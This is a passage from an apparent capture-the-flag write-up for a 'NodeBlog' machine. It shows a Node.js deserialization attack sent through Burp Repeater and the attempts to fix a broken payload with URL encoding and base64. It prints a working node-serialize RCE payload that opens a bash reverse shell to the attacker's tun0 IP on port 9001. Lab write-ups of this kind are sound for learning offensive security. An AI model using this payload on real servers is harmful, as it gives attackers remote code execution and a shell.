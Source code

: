 It didn’t work. If you check the payload in the repeater tab, its highlighted in two different colours, which because the payload is broken into two parts due to the semicolon `;` in the payload. So, this time I encoded the semicolon with URL encoding and also I replace all the single quotes with double quotes i.e, `‘` replaced with `“`, then I send the request. The URL encoded value of semicolon is `%3b`.

```
// Payload: URL encoded semicolon and replaced all single quotes with double quotes.
{"rce":"_$$ND_FUNC$$_function (){require(\"child_process\").exec(\"bash -i >& /dev/tcp/<tun0_IP>/9001 0>&1\", function(error, stdout, stderr) { console.log(stdout) })%3b}()"}
```

![Untitled 23.png](NodeBlog/assets/Untitled%2023.png)

But this time also I haven’t got back the response.

So this time I encoded the command which is in the payload using `base64` algorithm.

![Untitled 24.png](NodeBlog/assets/Untitled%2024.png)

But if you send this base64 string as it is in the payload it won’t work, because the base64 string is not a valid command in linux. So we have to find a way to decode this while execution. So I constructed a bash command to decode this.
